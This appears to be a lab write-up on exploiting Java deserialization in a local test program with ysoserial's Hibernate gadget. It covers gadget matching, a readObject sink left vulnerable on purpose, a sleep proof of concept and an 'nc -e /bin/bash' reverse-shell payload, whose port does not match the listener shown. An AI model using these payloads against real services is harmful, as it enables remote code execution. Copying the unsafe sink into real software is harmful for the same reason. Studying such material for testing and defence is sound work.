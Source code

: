 #### 5.1. Info

Burp finding - `High: Java Unsafe Deserialization, vulnerable library: Hibernate 5 (DNS) (encoded in Base64)`.

Hibernate 5 is interesting to exploit because it gives arbitrary method invocation.


#### 5.2. Match the Burp scanner payload with the `yseoserial` gadget

```
# payload_str=`grep -r 'Hibernate 5 (DNS)' ~/Java-Deserialization-Scanner | grep -oE '\"rO0AB.*\"' | tr -d '"' | tr -d '\n' | head -c 32`
# options=`java -jar ~/ysoserial.jar 2>&1 | grep -i 'hibernate' | awk '{print $1}'`
# for i in $options; do java -Dhibernate5 -jar ~/ysoserial.jar $i ls 2>/dev/null | base64 | grep -oE $payload_str && echo $i; done
rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1h
Hibernate1
rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1h
Hibernate2
```
Note: this indicates that either payloads might work when `hibernate5` system property is set.

However, `Hibernate1.java` is the only file that checks for `hibernate5` system property.

```java
if ( System.getProperty("hibernate5") != null ) {
	return new String[] {
		"org.hibernate:hibernate-core:5.0.7.Final",
		"aopalliance:aopalliance:1.0",
		"org.jboss.logging:jboss-logging:3.3.0.Final",
		"javax.transaction:javax.transaction-api:1.2"
	};
}
```
File: `https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/Hibernate1.java`


#### 5.3. Project setup (vulnerable application)

a) The following code `/tmp/java_serial/Main.java` simply reads a file that contains a serialized Java steam, attempts to re-build the original Java object:

```java
import java.io.*;

public class Main {
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        if (args.length != 1) return;
        String filename = args[0];
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        Object whatever = ois.readObject(); // hereby the vulnerable code
    }
}
```

b) Dependency chain for Hibernate 5:
```
# mkdir -p /tmp/java_serial/lib
# find ~/.m2 -regex ".*hibernate.*core.*5.0.7.*Final.*jar" -exec cp -- "{}" /tmp/java_serial/lib \;
# find ~/.m2 -regex ".*aopalliance.*1.0.*jar" -exec cp -- "{}" /tmp/java_serial/lib \;
# find ~/.m2 -regex ".*jboss.*logging.*3.3.0.*Final.*jar" -exec cp -- "{}" /tmp/java_serial/lib \;
# find ~/.m2 -regex ".*javax.*transaction.*api.*1.2.*jar" -exec cp -- "{}" /tmp/java_serial/lib \;
```

b.1) Download dependencies from Maven repo
```
https://repo1.maven.org/maven2/javax/transaction/javax.transaction-api/1.2/javax.transaction-api-1.2.jar
```

c) Project structure - `/tmp/java_serial`:
```
# tree /tmp/java_serial
/tmp/java_serial
├── hibernate5.serial
├── lib
│   ├── aopalliance-1.0.jar
│   ├── hibernate-core-5.0.7.Final.jar
│   ├── javax.transaction-api-1.2.jar
│   └── jboss-logging-3.3.0.Final.jar
└── Main.java

1 directory, 6 files
```

d) Compiling the program:
```
# javac Main.java # compile as regular Java program
# javac -cp `pwd`/lib/*: Main.java # in case classes from JAR file are imported in the Java program
```


#### 5.4. Exploitation - part 1 (benign)

Note:
- it is enough to provide the gadget JAR as part of the Java Class Path when running the application (similar to WebLogic)
- after running the program, successful exploitation will delay the process as expected (however this will trigger a `NullPointerException`)

a) Generate the `ysoserial` payload for `Hibernate5`:
```
# java -Dhibernate5 -jar ~/ysoserial.jar Hibernate1 "sleep 5" > /tmp/java_serial/hibernate5.serial
```

b) Exploitation - PoC:
```
# time java -cp `pwd`/lib/*: Main hibernate5.serial 2>/dev/null

real	0m5.462s
user	0m0.680s
sys	0m0.068s
```


#### 5.5. Exploitation - part 2 (reverse shell)

a) Generate the `ysoserial` payload for `Hibernate5`:
```
# java -Dhibernate5 -jar ~/ysoserial.jar Hibernate1 "nc 127.0.0.1 9999 -e /bin/bash" > /tmp/java_serial/hibernate5.serial
```

b) Exploitation - PoC:
```
# java -cp `pwd`/lib/*: Main hibernate5.serial 2>/dev/null
# nc -nlvp 9191
```


